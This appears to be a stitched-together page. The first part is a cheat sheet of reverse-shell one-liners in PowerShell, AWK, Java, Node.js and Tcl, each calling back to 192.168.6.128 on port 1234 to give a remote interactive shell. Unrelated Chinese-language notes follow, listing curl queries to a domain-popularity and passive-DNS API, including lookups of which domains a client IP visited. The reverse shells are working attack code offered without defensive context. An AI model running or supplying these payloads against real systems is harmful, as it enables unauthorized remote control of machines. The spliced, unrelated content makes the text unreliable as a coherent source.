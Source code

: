 POWERSHELL REVERSE SHELL
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('192.168.6.128',1234);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"

AWK REVERSE SHELL
awk 'BEGIN {s = "/inet/tcp/0/192.168.6.128/1234"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null

JAVA REVERSE SHELL
r = Runtime.getRuntime();p = r.exec(["/bin/sh","-c","exec 5<>/dev/tcp/192.168.6.128/1234;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[]);p.waitFor();

NODE.JS REVERSE SHELL
(function(){var net=require("net"),cp=require("child_process"),sh=cp.spawn("/bin/sh",[]);var client=new net.Socket();client.connect(1234,"192.168.6.128",function(){client.pipe(sh.stdin);sh.stdout.pipe(client);sh.stderr.pipe(client);});return /a/;})();

TCLSH REVERSE SHELL
echo 'set s [socket 192.168.6.128 1234];while 42 { puts -nonewline $s "shell>";flush $s;gets $s c;set e "exec $c";if {![catch {set r [eval $e]} err]} { puts $s $r }; flush $s; }; close $s;' | tclsh

## 实时监测

### 域名流行度

- 查询二级域名

	- curl http://fdp.x.cn/topdomain/sld/qq.com
curl http://fdp.x.cn/topdomain/sld/rank/110

- 查询全域名

	- curl http://fdp.x.cn/topdomain/fqdn/www.baidu.com
curl http://fdp.x.cn/topdomain/fqdn/rank/1

### DNS流量

- 查询指定域名的客户端访问IP

	- curl "http://fdp.x.cn/pdns/access/domain/www.x.cn/?start=20170903155555&end=20170903170000"

- 查询指定客户端IP访问的域名信息

	- curl "http://fdp.x.cn/pdns/access/client/1.204.151.47/?start=20171201145555&end=20171203170000&limit=10"

### 域名及其子域名

- 查询指定域名的子域名及其出现时间

	- curl "http://fdp.x.cn/dtree/pogzu3g64vj-y4en6.com/?timeformat=simple"

